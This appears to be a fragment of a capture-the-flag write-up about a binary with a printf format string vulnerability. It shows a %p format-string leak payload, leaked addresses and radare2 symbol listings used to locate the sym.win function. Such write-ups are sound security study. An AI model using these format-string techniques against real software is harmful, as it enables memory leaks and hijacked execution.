 There is a format string vulnerability in the function.
The printf function 4th line of the code prints user input without validation which leads to format string vulnerability. This vulnerability can be used for leaking the base memory address.

This suggests that we can use this vulnerability to call the function `sym.win` to obtain the flag. In order to call the function, we need to know the offset of the function. In `radare2`, it says that the function is located at `0x0000136a`.

Therefore, the memory location of the function `sym.win` should end with the last 3 digits of the address: `36a` (`0x00001` suggests the dynamic base address).

```bash
sym.win 		    0x0000136a
main			    0x00001400
sym.call_functions	0x000012c7

.0x5589ca0a3441.

0x5589ca0a336a

%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

0x5c637d063441
0x5c637d06336a
```

```bash
0x00001100    1     11 sym.imp.putchar
0x00001110    1     11 sym.imp.puts
0x00001120    1     11 sym.imp.fclose
0x00001130    1     11 sym.imp.__stack_chk_fail
0x00001140    1     11 sym.imp.printf
0x00001150    1     11 sym.imp.fgetc
0x00001160    1     11 sym.imp.fgets
0x00001170    1     11 sym.imp.signal
0x00001180    1     11 sym.imp.setvbuf
0x00001190    1     11 sym.imp.fopen
0x000011a0    1     11 sym.imp.__isoc99_scanf
0x000011b0    1     11 sym.imp.exit
0x000011c0    1     46 entry0
0x000011f0    4     34 sym.deregister_tm_clones
0x00001220    4     51 sym.register_tm_clones
0x00001260    5     54 entry.fini0
0x000010f0    1     11 fcn.000010f0
0x000012a0    1      9 entry.init0
0x00001000    3     27 sym._init
0x000014c0    1      5 sym.__libc_csu_fini
0x000012c7    3    163 sym.call_functions
0x000014c8    1     13 sym._fini
0x000012a9    1     30 sym.segfault_handler
0x00001450    4    101 sym.__libc_csu_init
0x0000136a    6    150 sym.win
0x00001400    1     72 main
```
